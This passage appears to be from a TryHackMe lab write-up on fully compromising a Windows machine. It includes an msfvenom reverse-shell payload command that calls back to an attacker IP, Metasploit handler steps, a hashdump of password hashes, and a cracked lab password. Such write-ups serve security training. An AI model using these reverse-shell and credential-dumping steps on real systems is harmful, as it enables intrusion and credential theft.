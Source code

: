 ### User Password
- While we have already gotten a root shell on the target, THM wants us to fully pwn the device by finding the `Lab` user password. 
- If we were to do basic system hacking and then move to privilege escalation, we may start by trying to get a reverse shell on the machine by using Metasploit. We could generate a malicious payload using MSFVenom, and then get that onto the target. Since we are already `nt authority/system`, this should be pretty easy. To generate the MSFVenom payload, we can use the following syntax:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker IP] LPORT=8888 -f exe > shell.exe
```

- Upload the shell with the `upload shell.exe` syntax through the meterpreter shell, but make sure you are in the directory in Metasploit where the MSFVenom payload was generated. 
- Open up another Metasploit session and use the following syntax `use exploit/multi/handler` to be able to catch the reverse connection once `shell.exe` is executed on the target. Set the appropriate options and type `run`. 
- Use `execute -f shell.exe` to run the executable, and you should receive a hit on the second Metasploit instance. The output should look something like the following:

```ruby
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on attacking-ip:7777 
[*] Sending stage (176195 bytes) to target-ip
[*] Meterpreter session 1 opened (attacking-ip:7777 -> target-ip:49167) at 2020-09-23 15:13:54 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::
meterpreter > 
```

- From here, we can use something like Crackstation or John The Ripper to crack the password hash for `Lab` user:
	- Password: googleplus

---
## Privilege Escalation
- We don't really need to do privilege escalation, since the meterpreter session allows us to access the `Administrator` folder, considering we got onto the machine as `nt authority/system`. This allows us to look at the `root.txt` file found in the `Administrator\Desktop` folder. 

---
## Rabbit Holes
### SMB
- SMB didn't really turn out to give us any relevant information, and seems to have been left on by default when the machine was created. I did light enumeration and even went through the trouble of installing SMBmap on the THM AttackBox to try and get more information. However, this didn't provide worthwhile results. 
